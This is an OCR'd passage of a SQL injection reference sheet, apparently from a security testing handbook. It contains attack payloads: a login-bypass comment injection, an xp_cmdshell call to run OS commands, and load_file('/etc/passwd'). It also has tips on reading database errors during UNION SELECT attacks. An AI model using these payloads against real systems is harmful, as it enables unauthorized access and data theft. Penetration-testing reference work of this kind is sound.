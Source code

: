 ```SELECT * FROM users WHERE username = ‘admin’--’ AND password = ‘foo’```

11. Requirement: Interact with the operating system (simplest ways)
**Oracle:** ***See The Oracle Hacker’s Handbook by David Litchfi eld***
**MS-SQL:** ```EXEC xp_cmshell ‘dir c:\ ‘```
**MySQL:** ```SELECT load_file(‘/etc/passwd’)```

**SQL Error Messages**

1. **Oracle:** ```ORA-01756: quoted string not properly terminated```
```ORA-00933: SQL command not properly ended```

2. **MS-SQL:** ```Msg 170, Level 15, State 1, Line 1```
```Line 1: Incorrect syntax near ‘foo’```
```Msg 105, Level 15, State 1, Line 1```
```Unclosed quotation mark before the character string ‘foo’```

3. **MySQL:** ```You have an error in your SQL syntax. Check the manual that corresponds to your MySQL server version for the right syntax to use near ‘’foo’ at line X```

**Translation:** ```For Oracle and MS-SQL, SQL injection is present, and it is almost certainly exploitable! If you entered a single quote and it altered the syntax of the database query, this is the error you’d expect. For MySQL, SQL injection may be present, but the same error message can appear in other contexts.```

4. **Oracle:** ```PLS-00306: wrong number or types of arguments in call to ‘XXX’```

5. **MS-SQL:** ```Procedure ‘XXX’ expects parameter ‘@YYY’, which was not supplied```

6. **MySQL:** **N/A**

**Translation:** ```You have commented out or removed a variable that normally would be supplied to the database. In MS-SQL, you should be able to use time delay techniques to perform arbitrary data retrieval.```

7. **Oracle:** ```ORA-01789: query block has incorrect number of result columns```

8. **MS-SQL:** ``` Msg 205, Level 16, State 1, Line 1 ```
```All queries in a SQL statement containing a UNION operator must have an equal number of expressions in their target lists.```

9. **MySQL:** ```The used SELECT statements have a different number of columns```

**Translation:** ```You will see this when you are attempting a UNION SELECT attack, and you have specifi ed a different number of columns to the number in the original SELECT statement.```

10. **Oracle:** ```ORA-01790: expression must have same datatype as corresponding expression```

11. **MS-SQL:** ```Msg 245, Level 16, State 1, Line 1```
```Syntax error converting the varchar value ‘foo’ to a column of data type int.```

12. **MySQL:** ```(MySQL will not give you an error.)```

**Translation:** ```You will see this when you are attempting a UNION SELECT attack, and you have specifi ed a different data type from that found in the original SELECT statement. Try using a NULL, or using 1 or 2000.```

13. **Oracle:** ```ORA-01722: invalid number```
```ORA-01858: a non-numeric character was found where a numeric was expected```

14. **MS-SQL:** ```Msg 245, Level 16, State 1, Line 1```
```Syntax error converting the varchar value ‘foo’ to a column of data type int.```

15. **MySQL:** ```(MySQL will not give you an error.)```

```